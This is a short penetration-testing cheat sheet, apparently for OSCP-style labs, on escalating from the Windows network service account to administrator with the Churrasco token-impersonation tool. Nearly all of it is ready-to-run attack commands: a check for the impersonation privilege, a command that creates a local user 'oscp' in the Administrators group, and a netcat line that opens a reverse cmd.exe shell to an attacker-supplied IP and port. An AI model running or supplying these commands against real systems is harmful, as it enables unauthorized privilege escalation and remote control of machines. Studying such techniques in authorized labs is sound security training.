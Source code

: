 ### Privilage escalation for *nt authority\network service*
```
c:> whoami
whoami
nt authority\network service
```
### Check /priv
```
c:> whoami /priv
whoami /priv

check for SeImpersonatePrivilage is Enabled
```

### Upload *churrasco.exe*
- https://github.com/Re4son/Churrasco

### Use *add user to localgroup Administrator*
```
churrasco.bin "net user oscp oscp /add && net localgroup Administrators oscp /add"
```

### Use *nc connection*
```
churrasco.exe "nc.exe <your_machine_ip> <your_machine_port> -e cmd.exe"
```

